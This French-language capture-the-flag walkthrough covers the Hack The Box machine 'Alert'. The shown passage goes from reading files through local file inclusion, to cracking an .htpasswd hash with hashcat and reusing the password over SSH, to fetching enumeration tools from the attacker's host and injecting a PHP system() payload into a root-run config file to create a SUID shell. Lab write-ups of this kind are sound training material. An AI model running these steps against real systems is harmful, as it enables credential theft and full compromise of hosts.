À ce stade, tu peux lire des fichiers locaux sur le serveur via la LFI.

Tu peux donc cibler directement des fichiers sensibles, en particulier les fichiers de configuration.

Un bon réflexe consiste à analyser la configuration Apache.

Tu récupères le fichier :

/etc/apache2/apache2.conf

Tu identifies notamment la directive suivante :

```bash
IncludeOptional sites-enabled/*.conf
```

Cela indique que la configuration des virtual hosts est chargée depuis ce répertoire.

Tu poursuis donc avec :

```bash
/etc/apache2/sites-enabled/000-default.conf
```

Dans ce fichier, une directive attire ton attention :

```bash
AuthUserFile /var/www/statistics.alert.htb/.htpasswd
```

**Interprétation (POINT CLÉ)**

Cette configuration révèle plusieurs éléments importants :

- une authentification HTTP Basic est utilisée
- un fichier `.htpasswd` est présent
- son chemin est accessible via ta LFI

Ce type de fichier contient souvent des identifiants exploitables en CTF.

Tu récupères donc son contenu via la LFI :

```txt
/var/www/statistics.alert.htb/.htpasswd
```

Après exfiltration :

```bash
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

Tu identifies :

- utilisateur : `albert`
- hash : `$apr1$` (MD5 Apache)

Tu peux maintenant tenter de casser ce hash pour obtenir le mot de passe en clair.

Tu places le hash dans un fichier :

```bash
echo '$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/' > hash.txt
```

Puis tu lances `hashcat` :

```bash
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
```

Le mot de passe est retrouvé :

```txt
manchesterunited
```

Tu obtiens donc les identifiants :

**albert:manchesterunited**


### Test des identifiants

Ces identifiants proviennent d’un `.htpasswd`, donc initialement destinés à une authentification web.

En pratique, il est toujours recommandé de tester ces identifiants sur tous les services accessibles, notamment SSH.

Tu testes en SSH :

```bash
ssh albert@alert.htb
```

L’authentification fonctionne.

Tu obtiens ainsi un accès SSH en tant qu’utilisateur `albert`.

### Récupération du flag

Une fois connecté en SSH, vérifie ton contexte :

```bash
id
uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
```

> Note que l’utilisateur appartient au groupe `management`, ce qui pourrait être utile pour la suite.

Tu listes les fichiers :

```bash
ls -l
-rw-r----- 1 root albert 33 Mar 29 13:19 user.txt
```

Puis tu récupères le flag :

```bash
cat user.txt
7e4dxxxxxxxxxxxxxxxxxxxxxxxxxxx31fb
```


### Conclusion de la prise de pied

À ce stade, tu disposes :

- d’une exécution de JavaScript dans le navigateur de l’administrateur
- d’un accès indirect aux fichiers du serveur via le LFI
- d’un mécanisme d’exfiltration fiable vers ta machine

Ces éléments t’ont permis de récupérer des identifiants valides, puis d’obtenir un accès SSH en tant qu’utilisateur `albert`.

Une fois connecté, tu récupères le flag `user.txt`, ce qui confirme que la prise de pied est réussie.

Tu peux donc considérer cette étape comme terminée et passer à la phase suivante : l’escalade de privilèges.

---

## Escalade de privilèges



### Sudo -l

**Résultat**

```bash
Sorry, user albert may not run sudo on alert.
```

Tu élimines une piste souvent rencontrée en CTF et poursuis ton énumération.

------

### Recherche de binaires SUID

Tu poursuis l’énumération en recherchant les binaires SUID, qui permettent parfois d’exécuter des commandes avec les privilèges de leur propriétaire.

```bash
find / -perm -4000 -type f 2>/dev/null
```

**Résultat (extrait)**

```bash
/opt/google/chrome/chrome-sandbox
/usr/bin/chfn
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Il s’agit uniquement de binaires système standards, sans piste d’exploitation directe.

Aucun binaire SUID exploitable dans ce cas.

------

### Analyse des Linux capabilities

Tu vérifies ensuite les capabilities Linux, qui permettent à certains binaires d’effectuer des actions privilégiées sans être root.

```bash
getcap -r / 2>/dev/null
```

**Résultat**

```bash
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Aucune capability exploitable dans ce contexte.

Ces `capabilities` sont liées au réseau et ne permettent pas d’exécuter du code en root.

------

### Inspection des tâches cron

Tu vérifies ensuite les tâches planifiées :

```bash
cat /etc/crontab
```

**Résultat**

```bash
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

Aucune tâche personnalisée ou modifiable par l’utilisateur n’est présente.

------

### Analyse des services locaux

Tu identifies ensuite les services en écoute :

```bash
netstat -tulpn
```

**Résultat (extrait)**

```bash
tcp        0      0 127.0.0.1:8080          LISTEN
tcp        0      0 0.0.0.0:22              LISTEN
tcp6       0      0 :::80                   LISTEN
```

Un service est accessible uniquement en local sur le port `127.0.0.1:8080`, ce qui peut être intéressant mais ne constitue pas une piste immédiate.

### Choix du répertoire de travail

Tu remarques rapidement que les répertoires `/tmp` et `/dev/shm` sont régulièrement nettoyés sur cette machine.

Ce comportement est fréquent sur les machines CTF.

Cela pose un problème : les fichiers que tu y déposes (scripts, outils, payloads) peuvent disparaître avant d’être exploités.

Il est donc nécessaire de trouver un répertoire :

- accessible en lecture et en écriture par l’utilisateur `albert`
- non soumis à un mécanisme de nettoyage

Tu peux identifier les répertoires accessibles avec :

```bash
find / -type d -writable 2>/dev/null
```

Parmi les résultats, le répertoire `/var/tmp` attire l’attention.

Contrairement à `/tmp` et `/dev/shm`, il n’est pas nettoyé automatiquement et permet de conserver les fichiers plus longtemps.

**Tu utilises donc `/var/tmp` comme répertoire de travail pour la suite de l’exploitation.**

### Analyse automatisée des SUID avec suid3num.py

Pour compléter la recherche manuelle des binaires SUID, tu utilises l’outil `suid3num.py`, qui permet d’identifier rapidement les binaires potentiellement exploitables et de les comparer avec les entrées connues de [GTFOBins](https://gtfobins.org/). Cela permet de gagner du temps par rapport à une analyse manuelle.

Tu le télécharges et l’exécutes depuis `/var/tmp` :

```bash
cd /var/tmp
wget http://10.10.x.x:8000/suid3num.py
python3 suid3num.py
```

**Résultat (extrait)**

```bash
[!] Default Binaries (Don't bother)
/opt/google/chrome/chrome-sandbox
/usr/bin/chfn
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper

[~] Custom SUID Binaries (Interesting Stuff)
------------------------------

[#] SUID Binaries found in GTFO bins..
[!] None :(
```

Aucun binaire SUID personnalisé ni exploitable n’est identifié.

Tu confirmes ainsi que la piste des binaires SUID ne mène à rien dans ce cas précis, ce qui t’oriente vers d’autres vecteurs d’escalade de privilèges.

------

### pspy64

Tu lances également `pspy64` dans une deuxième session SSH afin d’observer en temps réel les processus exécutés sur la machine, notamment ceux lancés par root.

Tu le télécharges et l’exécutes depuis le répertoire persistant (`/var/tmp`) :

```bash
cd /var/tmp
wget http://10.10.16.93:8000/pspy64
chmod +x pspy64
./pspy64
```

pspy64 permet d’observer les processus exécutés par root sans privilèges élevés.

Très rapidement, une activité répétée toutes les minutes attire ton attention :

```bash
CMD: UID=0 | /usr/bin/php -f /opt/website-monitor/monitor.php
```

Tu sais donc que `/opt/website-monitor/monitor.php` est lancé régulièrement avec les privilèges root.

C’est exactement le type de situation que tu recherches pour une escalade de privilèges : un script exécuté par root que tu peux modifier ou détourner.

Tu poursuis donc l’analyse en examinant le contenu de `monitor.php`.

### Analyse de `monitor.php`

Grâce à `pspy64`, tu as identifié l’exécution régulière du script suivant par root :

```
/usr/bin/php -f /opt/website-monitor/monitor.php
```

En analysant ce script, tu repères l’inclusion du fichier :

```
include('config/configuration.php');
```

Tu vérifies alors les permissions de ce fichier :

```
ls -l /opt/website-monitor/config/configuration.php
-rwxrwxr-x 1 root management ...
```

Tu identifies ici une combinaison critique :

- fichier modifiable
- exécuté par root

L’utilisateur `albert`, membre du groupe `management`, peut donc modifier ce fichier.

Tu affiches ensuite son contenu :

```
cat /opt/website-monitor/config/configuration.php
<?php
define('PATH', '/opt/website-monitor');
?>
```

Ce fichier est chargé automatiquement par un script exécuté en tant que root.

**Tu peux donc y injecter du code qui sera exécuté avec les privilèges root.**


### Conclusion de l’énumération manuelle

Les vérifications classiques (sudo, SUID, capabilities, cron, services) ne révèlent aucune piste exploitable directement.

En revanche, l’analyse avec `pspy64` met en évidence un point clé : l’exécution régulière de `/opt/website-monitor/monitor.php` par root.

Ce script devient le point central de l’escalade de privilèges, car il s’exécute automatiquement avec les privilèges root et utilise des fichiers accessibles par l’utilisateur `albert`.

La suite de l’exploitation consiste donc à modifier le fichier `configuration.php`, appelé par `monitor.php`, afin d’y insérer du code et obtenir un accès root.

### Exploitation

L’analyse de `monitor.php` a montré que le fichier `configuration.php` est exécuté automatiquement par root et modifiable par l’utilisateur `albert`.

L’objectif est donc d’y injecter directement du code afin d’exécuter une commande en tant que root.

**Modification de `configuration.php`**

L’objectif est de créer un binaire SUID root pour obtenir un shell privilégié.

Tu modifies directement le fichier :

```bash
nano /opt/website-monitor/config/configuration.php
```

Et tu ajoutes le payload suivant :

```php
<?php
define('PATH', '/opt/website-monitor');

system('cp /bin/bash /var/tmp/mybashroot; chown root:root /var/tmp/mybashroot; chmod 4755 /var/tmp/mybashroot;');
?>
```

Lors de la sauvegarde, tu observes les messages suivants :

- d'abord un popup 

  <span style="color:red">[File on disk has changed] </span> 

- suivi de :

```txt
File was modified since you opened it; continue saving?
```

Cela indique que ce fichier est modifié en continu par un processus externe.

Tu confirmes la sauvegarde en répondant `Y`, ce qui permet d’injecter temporairement ton payload.

**Exécution du payload**

Immédiatement après la sauvegarde :

- le code est exécuté par le script lancé en tant que root
- le fichier `/var/tmp/mybashroot` est créé
- `configuration.php` est restauré automatiquement à son état initial

Ce comportement montre qu’un mécanisme réécrit le fichier en continu, mais que ton payload est exécuté précisément au moment où tu enregistres les modifications.

Le timing est important : ton payload est exécuté avant que le fichier ne soit restauré.

Tu vérifies alors la présence du binaire :

```bash
ls -l /var/tmp/mybashroot
```

**Obtention du shell root**

Une fois le binaire créé avec le bit SUID :

```bash
/var/tmp/mybashroot -p
```

Puis :

```bash
mybashroot-5.0# id
uid=1000(albert) gid=1000(albert) euid=0(root) groups=1000(albert),1001(management)
```

Le shell conserve l’utilisateur `albert`, mais s’exécute avec les privilèges effectifs root (`euid=0`).

Cela suffit pour exécuter des commandes avec les privilèges root, notamment pour lire le flag.

### Récupération du flag

```bash
mybashroot-5.0# cat /root/root.txt
6276xxxxxxxxxxxxxxxxxxxxxxxxc253
```

Tu confirms ainsi l’accès root sur la machine.

**Le flag root est récupéré avec succès, ce qui marque la fin de l’exploitation et du CTF.**


---


## Conclusion

La machine **Alert (HTB Easy)** illustre parfaitement une chaîne d’exploitation simple et réaliste, basée sur l’enchaînement de plusieurs faiblesses plutôt que sur une vulnérabilité complexe.

À partir d’un point d’entrée côté application web, tu as pu récupérer des informations exploitables, obtenir un accès initial à la machine, puis élever progressivement tes privilèges jusqu’à root.

Ce type de scénario est très courant sur Hack The Box Easy :

- une vulnérabilité web accessible
- des identifiants réutilisables
- une escalade de privilèges basée sur une mauvaise configuration

L’intérêt de cette machine réside dans la méthodologie :
 chaque étape est simple individuellement, mais c’est leur enchaînement logique qui permet d’aboutir à la compromission complète du système.

En appliquant une approche structurée — observer, tester, exploiter — tu arrives à un résultat fiable et reproductible, exactement ce qui est attendu dans un contexte CTF ou en situation réelle.

---

